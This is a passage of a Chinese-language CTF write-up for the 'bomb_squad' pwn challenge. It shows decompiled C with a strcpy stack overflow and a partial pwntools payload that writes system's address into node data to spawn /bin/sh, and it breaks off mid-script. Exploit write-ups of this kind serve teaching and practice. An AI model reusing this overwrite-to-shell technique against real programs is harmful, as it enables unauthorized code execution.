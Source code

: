   

经过分析之后发现这个函数会执行每个node中`name[4]-name[8]`所指向的函数，而name自然可以控制。并且call的时候，此时栈顶指向的就是当前node。那么只需要把某一个node的name后四个字节修改成system，next1指向的内容修改为`/bin/sh\x00`就可以getshell。

  

### 任意地址写

  

__nr函数：

  

```c

unsigned int _nr()

{

  v5 = __readgsdword(0x14u);

  v0 = (const char *)get_line();

  strcpy(&dest, v0);

  v1 = (const char *)get_line();

  strcpy(v4, v1);

  return __readgsdword(0x14u) ^ v5;

}

```

  

很明显的栈溢出，可以通过第一个输入，将v4覆盖为`node->next1`的地址，通过第二个输入在修改`next1`所指向的内容。

  

### payload

  

```python

from pwn import *

p = process("./bomb_squad")

p.sendline("8584")

p.sendline("[1, 1, 3, 5, 11, 21]")

p.sendline("\x00")

p.sendline("3 0 3 0 3 0 0")

system = 0x080485A0

n3 = 0x804b0a8

nr = 0x08048CDA

payload = 'aaaa' + p32(nr) #首先利用__gg函数执行node1中的__nr函数

p.send(payload)

payload = 'bbbb' + p32(system) + "\n\n\n\n" #接着写入system地址到node2等待第二次call，最后4个\n跳过剩下4个node->name的修改
```